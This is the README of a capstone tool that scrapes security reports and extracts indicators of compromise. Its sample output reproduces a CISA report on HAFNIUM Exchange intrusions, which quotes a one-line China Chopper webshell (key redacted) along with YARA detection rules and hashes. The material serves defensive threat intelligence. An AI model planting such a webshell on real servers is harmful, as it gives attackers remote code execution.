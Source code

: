 # Capstone-MISP-Module

- [Capstone-MISP-Module](#capstone-misp-module)
  - [How to run the spider module](#how-to-run-the-spider-module)
## 1) How to run the spider module
1. Navigate to `Capstone-MISP-Module/web-crawler`
2. If not done already, install project dependencies with `pipenv install`
3. Open the python virtual environment for spider module with `pipenv shell`
4. Navigate back to root directory: `Capstone-MISP-Module/web-crawler`
5. Run the spider with `scrapy runspiderweb-crawler/infosecspider/spiders/scraper.py`, where `scraper.py` is the name of the scraping script in `infosecspider/spiders`. This will create an `/output/` folder inside the directory of `Capstone-MISP-Module/` which will contain all the web-scraped urls/blogs posts/technical reports.

### Viewing the initial folders created in /Capstone-MISP-Module/output/:
<div align="center"><img alt="First pass OCR transcription" width="600px" src="images/outputfoldervanilla.png"></div>


## 2) Setting up and How to run the Indicators Of Compromise (IOC) extraction module on the /outputs/ folder generated from step 1
1. Navigate to `Capstone-MISP-Module/`
2. `unzip cyobstract.zip` #Cyobstract IOC extraction tool authored by Sam-Perl, et al.
3. `python cyobstract/setup.py install` #install cyobstract dependencies
4. `pip install --upgrade --force-reinstall progress` #fixes library errors

- Sample code of how to utilize the initiate_ioc_extraction_main function. This function takes the output path from Step 1) and extracts all IOCs utilizing Cyobstract module
```bash
from util.ioc_extract import initiate_ioc_extraction_main

#returns a dictionary of dicts or None
dictionary = initiate_ioc_extraction_main(path_outputs='output/', view_scraping_within_last_hours=1) 
print(dictionary)
```

### Partial sample of output on a CISA analysis-report (url: https://us-cert.cisa.gov/ncas/analysis-reports/ar21-072d)
```bash
{'cisa': {'20210429-2315': {'ar21-072d.json': {'article_url': 'https://us-cert.cisa.gov/ncas/analysis-reports/ar21-072d',
    'asn': (),
    'asnown': (),
    'cc': ('China',),
    'cve': ('CVE-2021-26855', 'CVE-2021-27065'),
    'data': '\n\t\t\tNotification\n\n\t\t\t\n\t\t\tThis report is provided "as is" for informational purposes only. The Department of Homeland Security (DHS) does not provide any warranties of any kind regarding any information contained herein. The DHS does not endorse any commercial product or service referenced in this bulletin or otherwise.\n\n\t\t\tThis document is marked TLP:WHITE--Disclosure is not limited. Sources may use TLP:WHITE when information carries minimal or no foreseeable risk of misuse, in accordance with applicable rules and procedures for public release. Subject to standard copyright rules, TLP:WHITE information may be distributed without restriction. For more information on the Traffic Light Protocol (TLP), see http://www.us-cert.gov/tlp.\n\n\t\t\tFor a downloadable copy of IOCs, see: MAR-10329297-1.v1.stix.\n\t\t\t\n\n\t\t\tSummary\n\n\t\t\t\n\t\t\tDescription\n\n\t\t\tCISA received two unique files for analysis. These files appear to contain configuration data for two different Microsoft Exchange Offline Address Book (OAB) Virtual Directories (VD) extracted from a Microsoft Exchange Server. Both output files show malicious modifications for the ExternalUrl parameters for these two OAB VDs on the targeted Exchange Servers. In one of the OAB VDs, the ExternalUrl parameter contains a "China Chopper" webshell which may permit a remote operator to dynamically execute JavaScript code on the compromised Microsoft Exchange Server. The second file is modified with an authentication key.\n\n\t\t\tSubmitted Files (2)\n\n\t\t\t31a750f8dbdd5bd608cfec4218ccb5a3842821f7d03d0cff9128ad00a691f4bd (2XJHwN19.aspx)\n\n\t\t\td637b9a4477778a2e32a22027a86d783e1511e999993aad7dca9b7b1b62250b8 (UwSPMsFi.aspx)\n\t\t\t\n\n\t\t\tFindings\n\n\t\t\t\n\t\t\td637b9a4477778a2e32a22027a86d783e1511e999993aad7dca9b7b1b62250b8\n\n\t\t\tTags\n\n\t\t\tbackdoortrojanwebshell\n\n\t\t\tDetails\n\n\t\t\tName\n\t\t\t\t\t\tUwSPMsFi.aspx\n\t\t\t\t\tSize\n\t\t\t\t\t\t2186 bytes\n\t\t\t\t\tType\n\t\t\t\t\t\tHTML document, ASCII text, with CRLF line terminators\n\t\t\t\t\tMD5\n\t\t\t\t\t\t78564702783ba738aa6a920f3b15a202\n\t\t\t\t\tSHA1\n\t\t\t\t\t\ta75fa74ae35ce20c9cfc273c219ef58f1c4714a6\n\t\t\t\t\tSHA256\n\t\t\t\t\t\td637b9a4477778a2e32a22027a86d783e1511e999993aad7dca9b7b1b62250b8\n\t\t\t\t\tSHA512\n\t\t\t\t\t\t63afff12ac7cfd65ba31aad61bab534040fc3ff8b782336fcdbe171bf43f733734770c5f11bfbf9f4b5a1beaf279e8ad8d6509ff6e07b7afba098a8e6ba52a6c\n\t\t\t\t\tssdeep\n\t\t\t\t\t\t24:kNrde9/xL+rJTh91Q/PSR6j0SzMaEVMr6j71idfhLhgupVFgdUYC2E4ONF0qp0Bz:kNrdezC1BO0KM5QZLh9pV/YE4ONF0qBW\n\t\t\t\t\tEntropy\n\t\t\t\t\t\t4.662408\n\t\t\t\t\tAntivirus\n\n\t\t\tAhnlab\n\t\t\t\t\t\tExploit/ASP.Cve-2021-27065.S1406\n\t\t\t\t\tAvira\n\t\t\t\t\t\tEXP/CVE-2021-27065.1\n\t\t\t\t\tBitDefender\n\t\t\t\t\t\tGeneric.ASP.WebShell.H.48A3B112\n\t\t\t\t\tClamAV\n\t\t\t\t\t\tAsp.Trojan.Webshell0321-9840176-0\n\t\t\t\t\tEmsisoft\n\t\t\t\t\t\tGeneric.ASP.WebShell.H.48A3B112 (B)\n\t\t\t\t\tIkarus\n\t\t\t\t\t\tExploit.ASP.CVE-2021-27065\n\t\t\t\t\tLavasoft\n\t\t\t\t\t\tGeneric.ASP.WebShell.H.48A3B112\n\t\t\t\t\tMcAfee\n\t\t\t\t\t\tExploit-CVE2021-27065.a\n\t\t\t\t\tMicrosoft Security Essentials\n\t\t\t\t\t\tExploit:ASP/CVE-2021-27065\n\t\t\t\t\tQuick Heal\n\t\t\t\t\t\tCVE-2021-26855.Webshll.41350\n\t\t\t\t\tSophos\n\t\t\t\t\t\tTroj/WebShel-L\n\t\t\t\t\tSymantec\n\t\t\t\t\t\tTrojan.Chinchop\n\t\t\t\t\tTrendMicro\n\t\t\t\t\t\tBackdoo.DDEA7357\n\t\t\t\t\tTrendMicro House Call\n\t\t\t\t\t\tBackdoo.DDEA7357\n\t\t\t\t\tYARA Rules\n\n\t\t\trule CISA_10328929_01 : trojan webshell exploit CVE_2021_27065\n\t\t\t\t{\n\t\t\t\t\xa0\xa0\xa0meta:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Author = "CISA Code & Media Analysis"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Incident = "10328929"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Date = "2021-03-17"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Last_Modified = "20210317_2200"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Actor = "n/a"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Category = "Trojan WebShell Exploit CVE-2021-27065"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Family = "HAFNIUM"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Description = "Detects CVE-2021-27065 Webshellz"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0MD5_1 = "ab3963337cf24dc2ade6406f11901e1f"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0SHA256_1 = "c8a7b5ffcf23c7a334bb093dda19635ec06ca81f6196325bb2d811716c90f3c5"\n\t\t\t\t\xa0\xa0\xa0strings:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 = { 65 76 61 6C 28 52 65 71 75 65 73 74 5B 22 [1-32] 5D 2C 22 75 6E 73 61 66 65 22 29 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s1 = { 65 76 61 6C 28 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s2 = { 28 52 65 71 75 65 73 74 2E 49 74 65 6D 5B [1-36] 5D 29 29 2C 22 75 6E 73 61 66 65 22 29 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s3 = { 49 4F 2E 53 74 72 65 61 6D 57 72 69 74 65 72 28 52 65 71 75 65 73 74 2E 46 6F 72 6D 5B [1-24] 5D }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s4 = { 57 72 69 74 65 28 52 65 71 75 65 73 74 2E 46 6F 72 6D 5B [1-24] 5D }\n\t\t\t\t\xa0\xa0\xa0condition:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 or ($s1 and $s2) or ($s3 and $s4)\n\t\t\t\t}\n\t\t\t\trule CISA_10328929_02 : trojan webshell exploit CVE_2021_27065\n\t\t\t\t{\n\t\t\t\t\xa0\xa0\xa0meta:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Author = "CISA Code & Media Analysis"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Incident = "10328929"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Date = "2021-03-17"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Last_Modified = "20210317_2200"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Actor = "n/a"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Category = "Trojan WebShell Exploit CVE-2021-27065"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Family = "HAFNIUM"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Description = "Detects CVE-2021-27065 Exchange OAB VD MOD"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0MD5_1 = "ab3963337cf24dc2ade6406f11901e1f"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0SHA256_1 = "c8a7b5ffcf23c7a334bb093dda19635ec06ca81f6196325bb2d811716c90f3c5"\n\t\t\t\t\xa0\xa0\xa0strings:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 = { 4F 66 66 6C 69 6E 65 41 64 64 72 65 73 73 42 6F 6F 6B 73 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s1 = { 3A 20 68 74 74 70 3A 2F 2F [1] 2F }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s2 = { 45 78 74 65 72 6E 61 6C 55 72 6C 20 20 20 20 }\n\t\t\t\t\xa0\xa0\xa0condition:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 and $s1 and $s2\n\t\t\t\t}\n\t\t\tssdeep Matches\n\n\t\t\tNo matches found.\n\n\t\t\tDescription\n\n\t\t\tThis file is an OAB configuration file from a legitimate Set-OABVirtualDirectory cmdlet. This file is typically used to edit an OAB VD in Internet Information Services (IIS) on Microsoft Exchange Servers. The Exchange OAB VD is utilized to access Microsoft Exchange address lists. The OAB ExternalUrl parameter has been modified by a remote operator to include a "China Chopper" webshell which is likely an attempt to gain unauthorized access for dynamic remote code execution against a targeted Microsoft Exchange Server. In this file, the OAB ExternalUrl parameter was configured to accept JavaScript code which will be directly executed on the target system. The modification of the ExternalUrl parameter suggests the operator can dynamically submit queries to this Exchange OAB VD.\n\t\t\tThe ExternalUrl designation that normally specifies the Uniform Resource Locator (URL) used to connect to the VD from outside the firewall has been replaced with the following code:\n\t\t\t--Begin Code--\n\t\t\thxxp[:]//f/<script language="JScript" runat="server">function Page_Load(){eval(Request["[REDACTED]"],"unsafe");}</script>\n\t\t\t--End Code--\n\t\t\tNote: The hard-coded key used for authentication was redacted from the code above.\n\t\t\tThis code allows an attacker to access the shell using a password. Once accessed, the attacker is able to execute commands on the page with server (system) level privileges.\n\t\t\t\n\n\t\t\t\n\t\t\t31a750f8dbdd5bd608cfec4218ccb5a3842821f7d03d0cff9128ad00a691f4bd\n\n\t\t\tTags\n\n\t\t\tbackdoor\n\n\t\t\tDetails\n\n\t\t\tName\n\t\t\t\t\t\t2XJHwN19.aspx\n\t\t\t\t\tSize\n\t\t\t\t\t\t2177 bytes\n\t\t\t\t\tType\n\t\t\t\t\t\tASCII text, with CRLF line terminators\n\t\t\t\t\tMD5\n\t\t\t\t\t\t4580f7f2f2d7ac1af26693132c2e756d\n\t\t\t\t\tSHA1\n\t\t\t\t\t\t1fead8d37f73b87ab75d0096d49b797afe7d0445\n\t\t\t\t\tSHA256\n\t\t\t\t\t\t31a750f8dbdd5bd608cfec4218ccb5a3842821f7d03d0cff9128ad00a691f4bd\n\t\t\t\t\tSHA512\n\t\t\t\t\t\tfceddb90d8a9445a726eefa6df7fe928006d6a29279138e1b7906534d3b188d08eda62a939617a7944889d8e2e160417600947f48d5704cb537e64b2523ba1a4\n\t\t\t\t\tssdeep\n\t\t\t\t\t\t48:kNrdNC1BS67PQZLh9pVn3tE4ONF0qny/W:ktdcVM7n3mNCqny/W\n\t\t\t\t\tEntropy\n\t\t\t\t\t\t4.495728\n\t\t\t\t\tAntivirus\n\n\t\t\tSophos\n\t\t\t\t\t\tTroj/ASPDoor-W\n\t\t\t\t\tYARA Rules\n\n\t\t\trule CISA_10328929_02 : trojan webshell exploit CVE_2021_27065\n\t\t\t\t{\n\t\t\t\t\xa0\xa0\xa0meta:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Author = "CISA Code & Media Analysis"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Incident = "10328929"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Date = "2021-03-17"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Last_Modified = "20210317_2200"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Actor = "n/a"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Category = "Trojan WebShell Exploit CVE-2021-27065"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Family = "HAFNIUM"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Description = "Detects CVE-2021-27065 Exchange OAB VD MOD"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0MD5_1 = "ab3963337cf24dc2ade6406f11901e1f"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0SHA256_1 = "c8a7b5ffcf23c7a334bb093dda19635ec06ca81f6196325bb2d811716c90f3c5"\n\t\t\t\t\xa0\xa0\xa0strings:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 = { 4F 66 66 6C 69 6E 65 41 64 64 72 65 73 73 42 6F 6F 6B 73 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s1 = { 3A 20 68 74 74 70 3A 2F 2F [1] 2F }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s2 = { 45 78 74 65 72 6E 61 6C 55 72 6C 20 20 20 20 }\n\t\t\t\t\xa0\xa0\xa0condition:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 and $s1 and $s2\n\t\t\t\t}\n\t\t\tssdeep Matches\n\n\t\t\tNo matches found.\n\n\t\t\tDescription\n\n\t\t\tThis file is an OAB configuration file from a legitimate Set-OABVirtualDirectory cmdlet. This file is typically used to edit a OAB VD in IIS on Microsoft Exchange Servers. The Exchange OAB VD is utilized to access Microsoft Exchange address lists. The configuration has been modified with a key in the \'ExternalUrl\' field. The key is most likely used for authentication to the server.\n\t\t\t\n\n\t\t\tMitigation\n\n\t\t\t\n\t\t\tIf you find these webshells as you are examining your system for Microsoft Exchange Vulnerabilities, please visit the https://us-cert.cisa.gov/remediating-microsoft-exchange-vulnerabilities website for further information on remediation.\n\t\t\t\n\n\t\t\tRecommendations\n\n\t\t\t\n\t\t\tCISA recommends that users and administrators consider using the following best practices to strengthen the security posture of their organization\'s systems. Any configuration changes should be reviewed by system owners and administrators prior to implementation to avoid unwanted impacts.\n\n\t\t\tMaintain up-to-date antivirus signatures and engines.\n\t\t\t\tKeep operating system patches up-to-date.\n\t\t\t\tDisable File and Printer sharing services. If these services are required, use strong passwords or Active Directory authentication.\n\t\t\t\tRestrict users\' ability (permissions) to install and run unwanted software applications. Do not add users to the local administrators group unless required.\n\t\t\t\tEnforce a strong password policy and implement regular password changes.\n\t\t\t\tExercise caution when opening e-mail attachments even if the attachment is expected and the sender appears to be known.\n\t\t\t\tEnable a personal firewall on agency workstations, configured to deny unsolicited connection requests.\n\t\t\t\tDisable unnecessary services on agency workstations and servers.\n\t\t\t\tScan for and remove suspicious e-mail attachments; ensure the scanned attachment is its "true file type" (i.e., the extension matches the file header).\n\t\t\t\tMonitor users\' web browsing habits; restrict access to sites with unfavorable content.\n\t\t\t\tExercise caution when using removable media (e.g., USB thumb drives, external drives, CDs, etc.).\n\t\t\t\tScan all software downloaded from the Internet prior to executing.\n\t\t\t\tMaintain situational awareness of the latest threats and implement appropriate Access Control Lists (ACLs).\n\t\t\tAdditional information on malware incident prevention and handling can be found in National Institute of Standards and Technology (NIST) Special Publication 800-83, "Guide to Malware Incident Prevention & Handling for Desktops and Laptops".\n\t\t\t\n\n\t\t\tContact Information\n\n\t\t\t\n\t\t\t1-888-282-0870\n\t\t\t\tCISA Service Desk (UNCLASS)\n\t\t\t\tCISA SIPR (SIPRNET)\n\t\t\t\tCISA IC (JWICS)\n\t\t\tCISA continuously strives to improve its products and services. You can help by answering a very short series of questions about this product at the following URL: https://us-cert.cisa.gov/forms/feedback/\n\t\t\t\n\n\t\t\tDocument FAQ\n\n\t\t\t\n\t\t\tWhat is a MIFR? A Malware Initial Findings Report (MIFR) is intended to provide organizations with malware analysis in a timely manner. In most instances this report will provide initial indicators for computer and network defense. To request additional analysis, please contact CISA and provide information regarding the level of desired analysis.\n\n\t\t\tWhat is a MAR? A Malware Analysis Report (MAR) is intended to provide organizations with more detailed malware analysis acquired via manual reverse engineering. To request additional analysis, please contact CISA and provide information regarding the level of desired analysis.\n\n\t\t\tCan I edit this document? This document is not to be edited in any way by recipients. All comments or questions related to this document should be directed to the CISA at 1-888-282-0870 or CISA Service Desk.\n\n\t\t\tCan I submit malware to CISA? Malware samples can be submitted via three methods:\n\n\t\t\tWeb: https://malware.us-cert.gov\n\t\t\t\tE-Mail: submit@malware.us-cert.gov\n\t\t\t\tFTP: ftp.malware.us-cert.gov (anonymous)\n\t\t\tCISA encourages you to report any suspicious activity, including cybersecurity incidents, possible malicious code, software vulnerabilities, and phishing-related scams. Reporting forms can be found on CISA\'s homepage at www.cisa.gov.\n\t\t\t\n\t\t\t\n\t\t',
    'email': ('submit@malware.us-cert.gov',),
    'filename': (),
    'filepath': (),
    'fqdn': ('ftp.malware.us-cert.gov',
     'malware.us-cert.gov',
     'us-cert.cisa.gov',
     'www.cisa.gov',
     'www.us-cert.gov'),
    'incident': (),
    'ipv4addr': (),
    'ipv4cidr': (),
    'ipv4range': (),
    'ipv6addr': (),
    'ipv6cidr': (),
    'ipv6range': (),
    'isp': (),
    'malware': ('asp.trojan.webshell0321-9840176-0',
     'exp/cve-2021-27065.1',
     'exploit-cve2021-27065.a',
     'exploit.asp.cve-2021-27065',
     'exploit/asp.cve-2021-27065.s1406',
     'exploit:asp/cve-2021-27065',
     'generic.asp.webshell.h.48a3b112',
     'troj/aspdoor-w',
     'troj/webshel-l',
     'trojan.chinchop'),
    'md5': ('4580f7f2f2d7ac1af26693132c2e756d',
     '78564702783ba738aa6a920f3b15a202',
     'ab3963337cf24dc2ade6406f11901e1f'), ...
```

## 3) (Optional) Expanding the current scraped urls through the use of google searches (blogs/technical reports/hacker news, etc) implemented in Capstone-MISP-Module/util/ioc_extract_expander.py

A powerful function of our tool comes from the power of allowing a user to expand their database by selecting a previously extracted ioc from a webpage/article for a deep search of the internet. Say you are a security expert and want to get as much information on a new malware with a particular IOC (say a particular MD5 hash). You can do this by running the function below, which will perform X number of google searches for your desired IOC, update the '/Capstone-MISP-Module/output/' folder with the new scraped-websites, and return all the extracted IOCs from how many google searches you specify. 

The parameters this function takes are
1) dictionary= dictionary of IOCs you have scraped so far
2) article_lookup = name of an article which contains an IOC category you are interested in, i.e. MD5
3) num_google_results = how many google hits do you desired to be scraped for each IOC in the chosen IOC category
4) search_speed = speed of google searches (warning: do not set too low, or may be IP blocked by Google)


- Sample code to run ioc_extract_expander.py for one article
```bash
from util.ioc_extract import initiate_ioc_extraction_main
from util.ioc_extract_expander import recursive_ioc_extractor_from_article_name_and_ioc__over_google_searches


#returns a dictionary of dicts or None (same as Section 2 above)
dictionary = initiate_ioc_extraction_main(path_outputs='output/', view_scraping_within_last_hours=1) 

#updates 'Capstone-MISP-Module/output' folder with new entries through google searches
recursive_ioc_extractor_from_article_name_and_ioc__over_google_searches(dictionary=dictionary, article_lookup='ar21-084a.json', ioc='md5', num_google_results=10,search_speed=3)

print('\n----------------Break------------\n')

#We call again initiate_ioc_extraction_main() to generate a bigger dictionary utilizing all the newly google queried articles for the extraction of more IOCs above
bigger_dictionary = initiate_ioc_extraction_main(path_outputs='output/', view_scraping_within_last_hours=1) 
print(bigger_dictionary) #Will print a bigger dictionary containing all new articles. Won't show output here as it is a long dictionary.
```
- You could even call 'recursive_ioc_extractor_....' several times in a row as well (example use case: interested in obtaining more information of 2 new malwares through their MD5 hashes):
```bash
article_1= 'ar21-084a.json'
article_2= 'ar21-072e.json'
selected_ioc_type = 'md5'
recursive_ioc_extractor_from_article_name_and_ioc__over_google_searches(dictionary=dictionary, article_lookup=article_1, ioc=selected_ioc_type, num_google_results=10,search_speed=3)
recursive_ioc_extractor_from_article_name_and_ioc__over_google_searches(dictionary=dictionary, article_lookup=article_2, ioc=selected_ioc_type, num_google_results=10,search_speed=3)

even_bigger_dictionary = initiate_ioc_extraction_main(path_outputs='output/', view_scraping_within_last_hours=1) 

```

- Demonstration of expansion of scraped-websites folder in /Capstone-MISP-Module/output/ (compare to Section 1):

<div align="center"><img alt="First pass OCR transcription" width="600px" src="images/outputfolderexpanded.png"></div>

